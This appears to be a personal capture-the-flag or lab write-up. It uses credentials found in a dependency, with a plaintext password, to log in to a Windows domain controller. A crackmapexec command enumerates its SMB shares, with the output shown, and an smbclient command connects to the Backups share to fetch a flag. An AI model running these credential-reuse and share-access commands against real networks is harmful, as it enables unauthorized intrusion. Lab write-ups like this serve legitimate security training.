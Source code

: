 using credentials from depency found on 10.10.110.20
/user:mrb3n W3lc0me123!!!?%?

```bash
/user:mrb3n W3lc0me123!!!
```
able to login to dc with these credentials
![[Pasted image 20240529182429.png]]
listing the shares
```bash
┌──(root💀gobots)-[29May2024 22:25:25]-[/home/kali]
└─# crackmapexec smb 10.10.110.3 -u mrb3n -p 'W3lc0me123!!!' --shares 
SMB         10.10.110.3     445    DC01-PHOBOS      [*] Windows 10.0 Build 17763 x64 (name:DC01-PHOBOS) (domain:genesis.local) (signing:True) (SMBv1:False)
SMB         10.10.110.3     445    DC01-PHOBOS      [+] genesis.local\mrb3n:W3lc0me123!!! 
SMB         10.10.110.3     445    DC01-PHOBOS      [+] Enumerated shares
SMB         10.10.110.3     445    DC01-PHOBOS      Share           Permissions     Remark
SMB         10.10.110.3     445    DC01-PHOBOS      -----           -----------     ------
SMB         10.10.110.3     445    DC01-PHOBOS      ADMIN$                          Remote Admin
SMB         10.10.110.3     445    DC01-PHOBOS      Backups         READ            
SMB         10.10.110.3     445    DC01-PHOBOS      C$                              Default share
SMB         10.10.110.3     445    DC01-PHOBOS      IPC$            READ            Remote IPC
SMB         10.10.110.3     445    DC01-PHOBOS      NETLOGON        READ            Logon server share 
SMB         10.10.110.3     445    DC01-PHOBOS      Software        READ            
SMB         10.10.110.3     445    DC01-PHOBOS      SYSVOL          READ            Logon server share 
```
smbclient to connect to share drive
```bash
smbclient -U 'genesis.local/mrb3n%W3lc0me123!!!' //10.10.110.3/Backups
```
grabbing flag
![[Pasted image 20240529182905.png]]